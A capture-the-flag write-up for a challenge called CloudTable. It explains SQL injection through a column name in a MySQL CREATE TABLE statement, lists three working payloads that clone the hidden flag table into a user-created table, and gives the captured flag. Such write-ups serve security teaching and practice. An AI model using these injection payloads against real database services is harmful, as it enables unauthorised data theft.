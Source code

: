 # CloudTable

## Description

CloudTable

Shou made a free MySQL table creator. Try it out and hack it!  Note: Flag is in flag table of cloudtable database.

## Solution

This challenge features SQL injection in a CREATE TABLE clause. I have to admit I spent way longer than I should have on it because I forgot to add the database prefix to the statement. Also, I was mostly trying the table name "flags" until the note was added to the challenge description.

The original statement is:

```sql
CREATE TABLE `cloudtable`.`{new table name}`(`{USER INPUT}` TYPE);
```

My approach was just to use one of the techniques to clone tables with additional fields. Here are a few working attacks that copy the flag table into the new table:

- hi\` TEXT) AS SELECT * FROM cloudtable.flag;#
- hi\` TEXT) TABLE cloudtable.flag;#
- hi\` TEXT) SELECT * FROM cloudtable.flag;#

Flag: `we{1cf8b0f2-7659-4277-b1be-8b50b1d1e046@Sq1_Injection_By_Cr3ate}`

I also tried to use check constraints but could not get the server to accept them :(
